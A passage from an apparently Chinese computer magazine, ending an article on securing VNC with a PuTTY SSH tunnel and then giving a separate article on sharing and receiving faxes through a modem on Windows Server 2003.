安装完后，系统会自动启动 VNC 服务。做了这么多的热身运动，接下来便是最关键的一步，笔者将向各位读者介绍如何通过 PuTTY + VNC Viewer 安全连接远程 VNC 服务器。

首先配置 PuTTY，输入远程运行有 VNC 服务的 SSH Server 的 IP，在左边树状菜单中选择 SSH—Tunnel，新增一条通道。在 Source Port 处输入 5900，Destination 处输入 `127.0.0.1:5900`，单击 Add 增加，如图12所示。


图12

如果需要经常连接可以保存此对话配置，单击 Open 进行连接，输入用户名密码登录 SSH Server。此时我们唯一要做的就是打开 VNC Viewer，输入 `127.0.0.1` 进行连接。VNC 会要求我们键入密码，输入之前设置的连接密码。OK，远程服务器的画面尽收眼底，此时你可以放心地进行操作，你现在所进行的 VNC 连接是通过我们挖掘的 SSH 安全隧道的，如图13所示。

通过 OpenSSH，我们还可以使用安全 FTP 等功能，篇幅所限，笔者这里就不多加介绍，请读者自行研习。

## 编者按：

随着网络办公、远程管理计算机的人越来越多，对于其网络的要求越来越高了。网络安全问题日益突出的今天，SSH 安全连接的使用已经成为企业和单位保护网络通信安全的一道重要屏障，类似 OpenSSH + VNC 的组合，终于让网管们可以放心了。


适合读者：网络管理员，系统管理员  
前置知识：无。

### Windows 2003 电讯传真共享

文／图 朱宏志

通常使用传真机手动发送传真有很多不足之处，比如需要先打印文档再进行发送，既提高成本又降低效率。实际上，只要有一只 Modem（内置的也行），你就可以让局域网内的用户在他们的计算机上发送传真，甚至接收传真。现在我们就来利用 Windows Server 2003 内置的传真服务实现我们的目的。

#### 硬件准备

Modem 都有两个口，一个 Line 口，这是接电话进线的；一个 Phone 口，这是接电话机的。请把 Modem 安装在一台 Windows Server 2003 的服务器上，因为 Windows Server 2003 可以提供传真共享服务。安装好 Modem 驱动。

#### 安装传真服务

Windows 2003 默认情况下传真服务没有安装，需要从控制面板的“添加删除程序”中自行安装，如图1所示。


#### 共享传真机

安装好传真服务之后，就可以在控制面板的“打印机和传真”中像共享打印机一样共享上面安装的 Modem。这个 Modem 的图标是一个传真机模样，如图2所示。

#### 安装共享传真客户端

客户端在能够发送传真之前，需要安装共享传真客户端。这个共享传真客户端的安装就如安装网络打印机一样，进入“开始/设置/打印机/添加打印机”，选择安装网络打印机项，然后填入共享传真机的网络共享位置及网络共享名即可，如图3所示。不过注意在安装过程中不要把这台传真机设为默认打印机，不然所有打印都将发送到这台传真上。另外在安装过程中会要求重启计算机。


图3

#### 客户端发送传真

这里以发送一个 Word 文档为例说明发送的步骤。

- 1) 先打开相应的 Word 文档。
- 2) 打印时，打印机选择上面安装的共享传真机。
- 3) 弹出传真发送向导，注意在收件人信息中正确填写传真号码。如果你是从内线拨号，可能还需要加上拨号字头，请在拨号字头和对方传真号之间加上逗号，如图4所示。


图4

完成后就可以发送传真了。

#### 接收传真

默认情况下，Modem 并不接收传真。要使用此 Modem 接收传真，请进入“程序/附件/通讯/传真/传真服务管理器”，定位到“设备和提供程序/设备”，然后右击下面的 Modem 设备，进入其属性窗口，如图5所示。

在图5中勾选上“接收传真”，在下面可以选择“自动应答”或“手动响应”。如果选择“自动应答”，则应该在右边填上一个“应答前响铃次数”值，默认值是 2，也就是说电话铃声响了两次无人接听的话就将作为传真处理。

接下来还要配置接收传真的方式。你可以把传真接收到电子邮箱中，或者保存到一个文件夹中，或者通过打印机打印出来，当然也可以上面几种都选择。要进行这个配置，请定位到上面 Modem 设备下的“传入方法”项，然后可以看到有 3 种传入方法：通过电子邮件、存储到文件夹和打印。但这几种方法默认都没有启用，需要你手动右击这些方法然后选择“启用”项才能生效。


图5

如果想使用“通过电子邮件”方法，还需要配置相关的邮件服务器信息。右击最上面的“传真（本地）”图标，进入其属性窗口，切换到“回执”标签，勾选上下面的“路由使用电子邮件传入路由方法时使用此 SMTP 设置”复选框，然后在上面的“发件人电子邮件地址”栏填上一个发送地址，在“服务器地址”栏填入相应 SMTP 服务器地址，端口通常都是默认的 25，最后点击“身份验证”按钮配置发送邮件时要提供的身份信息，如图6所示。


图6

只有经过上面的配置之后你才能启用“通过电子邮件”方法，之后你就可以双击此方法配置传真要保存到的邮箱。同理你可以配置其他方法的传真接收地址，比如要存储到的文件夹、要打印到的打印机，如图7所示。


图7

当你这 3 种接收方法都启用之后，传真将被发送到邮箱、保存到文件夹和通过打印机打印出来，所以建议你只启用其中的一种方法就行了。